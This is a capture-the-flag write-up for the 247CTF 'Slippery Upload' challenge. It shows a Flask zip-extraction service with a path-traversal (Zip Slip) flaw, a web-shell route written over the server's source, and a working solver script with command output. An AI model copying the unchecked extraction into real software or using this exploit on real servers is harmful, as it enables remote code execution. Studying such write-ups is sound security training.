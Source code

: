 # SLIPPERY UPLOAD [MODERATE]

## Description

> Can you abuse the zip upload and extraction service to gain code execution on the server?

## Source Code

<details><summary>Click here for /app/run.py in text format</summary>

```python
from flask import Flask, request
import zipfile, os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(32)
app.config['MAX_CONTENT_LENGTH'] = 1 * 1024 * 1024
app.config['UPLOAD_FOLDER'] = '/tmp/uploads/'

@app.route('/')
def source():
    return '<pre>%s</pre>' % open('/app/run.py').read()

def zip_extract(zarchive):
    with zipfile.ZipFile(zarchive, 'r') as z:
        for i in z.infolist():
            with open(os.path.join(app.config['UPLOAD_FOLDER'], i.filename), 'wb') as f:
                f.write(z.open(i.filename, 'r').read())


@app.route('/zip_upload', methods=['POST'])
def zip_upload():
    try:
        if request.files and 'zarchive' in request.files:
            zarchive = request.files['zarchive']
            if zarchive and '.' in zarchive.filename and zarchive.filename.rsplit('.', 1)[1].lower() == 'zip' and zarchive.content_type == 'application/octet-stream':
                zpath = os.path.join(app.config['UPLOAD_FOLDER'], '%s.zip' % os.urandom(8).hex())
                zarchive.save(zpath)
                zip_extract(zpath)
                return 'Zip archive uploaded and extracted!'
        return 'Only valid zip archives are acepted!'
    except:
         return 'Error occured during the zip upload process!'

if __name__ == '__main__':
    app.run()
```

</details>

## Short Solution Description / Tags

Zip Slip, RCE

## Solution

By Zip Slip, overwrite the source code to add an endpoint for a web shell, and get the flag.

Append the following to run.py:

```python
@app.route("/webshell")
def webshell():
    try:
        from flask import request
        import subprocess

        ret = subprocess.run(
            request.args.get("cmd", "id"),
            shell=True,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
        )
        return ret.stdout.decode()

        # import sys
        # return sys.version  # 3.6.9 (default, Oct 17 2019, 11:17:29) [GCC 6.4.0]
    except:
        import traceback

        return traceback.format_exc()
```

solver.py

```python
from zipfile import ZipFile
import io
import requests
import sys

requests.packages.urllib3.disable_warnings()

s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://d18d4af074e00c78.247ctf.com"


def main():
    # upload zip
    if len(sys.argv) != 2:
        zip_buffer = io.BytesIO()
        with ZipFile(zip_buffer, "w") as zip:
            zip.writestr("../../app/run.py", open("run.py").read())

        r = s.post(
            f"{BASE_URL}/zip_upload",
            files={
                "zarchive": (
                    "tmp.zip",
                    zip_buffer.getvalue(),
                    "application/octet-stream",
                )
            },
        )
        print(r.text)

    # Command Execution
    else:
        cmd = sys.argv[1]
        r = s.get(f"{BASE_URL}/webshell", params={"cmd": cmd})
        print(r.text)


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py  # upload zipfile
Zip archive uploaded and extracted!

$ python3 solver.py 'id'  # command execution
uid=100(nginx) gid=101(nginx) groups=82(www-data),101(nginx),101(nginx)

$ python3 solver.py 'ls'
flag_33cd0604f65815a9375e2da04e1b8610.txt
run.py

$ python3 solver.py 'cat flag_33cd0604f65815a9375e2da04e1b8610.txt'
247CTF{[REDACTED]}
```

## References

- [Zip Slip Vulnerability \| Snyk](https://security.snyk.io/research/zip-slip-vulnerability)
- [zipslip/zipslip.py at main · Ch0pin/zipslip](https://github.com/Ch0pin/zipslip/blob/main/zipslip.py)
- [zipfile — Work with ZIP archives — Python 3.12.1 documentation](https://docs.python.org/3/library/zipfile.html#zipfile-objects)

